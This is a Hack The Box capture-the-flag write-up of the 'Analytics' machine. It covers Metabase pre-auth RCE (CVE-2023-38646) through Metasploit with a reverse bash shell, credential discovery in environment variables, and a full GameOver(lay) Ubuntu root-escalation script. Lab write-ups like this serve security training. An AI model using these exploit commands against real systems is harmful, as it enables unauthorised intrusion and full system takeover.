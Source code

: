 # Decoding the Cyber Maze: Metabase Pre-Authentication RCE in 'Analytics Machine'.

![Analytics by Mr  Govind Dubey ](https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/5389b04e-7de8-4994-ac76-e5dbc4d79727)

## Introduction

Brace yourselves for a deep dive into the captivating realm of machine "analytics". In this exploration, we'll unravel the intricacies of analyzing machines, with a specific emphasis on the fascinating landscape of Metabase Remote Code Execution (RCE). We dissect the architecture, employing cutting-edge techniques to unveil the hidden steps that illuminate the profound world of machine analysis.

## Enumeration
An Nmap scan reveals a website at analytical.htb:

```bash
┌──(yury㉿kali)-[~/Documents/htb/analytics/CVE-2023-38646]
└─$ nmap analytical.htb
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-15 04:21 PDT
Nmap scan report for analytical.htb (10.10.11.233)
Host is up (0.28s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http
8402/tcp filtered abarsd
```

## Found a login page there
The website has a login page which goes to the _data.analytical.htb_ subdomain. This login page is using Metabase.

![Analytics _Web_Page by Mr  Govind Dubey  ](https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/3c7d5d8f-21e4-40ee-920c-f94f50533d8a)


Subdomain : _data.analytical.htb_
![Metabase admin page - Mr  Govind Dubey ](https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/e12f739c-49df-4e89-a1c3-a4a3f8056638)


## discovered an exploit within metasploit
While scouring the internet for details on Metabase exploits, I stumbled upon this information and grasped the underlying vulnerability gives us CVE-2023-38646 ( Chaining our way to Pre-Auth RCE in Metabase ) . 


```bash
msf > search metabase

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/linux/http/metabase_setup_token_rce  2023-07-22       excellent  Yes    Metabase Setup Token RCE

msf > use exploit/linux/http/metabase_setup_token_rce
[*] Using configured payload cmd/unix/reverse_bash

```

#### Let's immerse ourselves in the task at hand by configuring our rhost, lhost, and rport settings for impactful exploits in Metasploit.

```bash
msf exploit(linux/http/metabase_setup_token_rce) > set RHOST data.analytical.htb
RHOST => data.analytical.htb
msf exploit(linux/http/metabase_setup_token_rce) > set LHOST 10.10.15.63
LHOST => 10.10.15.63
msf exploit(linux/http/metabase_setup_token_rce) > set RPORT 80
RPORT => 80
```
 #### Once completing the setup, feel free to proceed with executing the exploit.

```bash
msf exploit(linux/http/metabase_setup_token_rce) > run

[*] Started reverse TCP handler on 10.10.15.63:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version Detected: 0.46.6
[+] Found setup token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[*] Sending exploit (may take a few seconds)
[*] Command shell session 1 opened (10.10.15.63:4444 -> 10.10.11.233:39036) at 2023-10-15 05:24:31 -0700

```

#### I commence the enumeration process to facilitate container escape. My first step involves scrutinizing potential environment variables through the execution of the 'env' command.

```bash 
env
MB_LDAP_BIND_DN=
LANGUAGE=en_US:en
USER=metabase
HOSTNAME=151580f52dbb
FC_LANG=en-US
SHLVL=5
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
HOME=/home/metabase
MB_EMAIL_SMTP_PASSWORD=
LC_CTYPE=en_US.UTF-8
JAVA_VERSION=jdk-11.0.19+7
LOGNAME=metabase
_=/bin/sh
MB_DB_CONNECTION_URI=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_PASS=
MB_JETTY_HOST=0.0.0.0
META_PASS=**************
LANG=en_US.UTF-8
MB_LDAP_PASSWORD=
SHELL=/bin/sh
MB_EMAIL_SMTP_USERNAME=
MB_DB_USER=
META_USER=metalytics
LC_ALL=en_US.UTF-8
JAVA_HOME=/opt/java/openjdk
PWD=/
MB_DB_FILE=//metabase.db/metabase.db 
```

#### I found the password. Now, let’s use it to log in with ssh to the machine.

```bash
metalytics@analytics:~$ ls
user.txt 
```

<br></br>

## Privilege Escalation

```bash 
metalytics@analytics:~$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jan 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```

#### I utilized a script meticulously crafted for Linux privilege escalation on the targeted machine.

```bash 
metalytics@analytics:~$ cd ../../tmp
metalytics@analytics:/tmp$ nano exploit.sh
metalytics@analytics:/tmp$ cat exploit.sh 
#!/bin/bash

# CVE-2023-2640 CVE-2023-3262: GameOver(lay) Ubuntu Privilege Escalation

echo "[+] You should be root now"
echo "[+] Type 'exit' to finish and leave the house cleaned"

unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
metalytics@analytics:/tmp$ chmod +x exploit.sh 
```

## Ready to kick things off? Simply proceed by executing the exploit.sh file!"

```bash 
metalytics@analytics:/tmp$ ./exploit.sh 
[+] You should be root now
[+] Type 'exit' to finish and leave the house cleaned
root@analytics:/tmp# whoami
root
root@analytics:/tmp# cat ../../root/root.txt

```
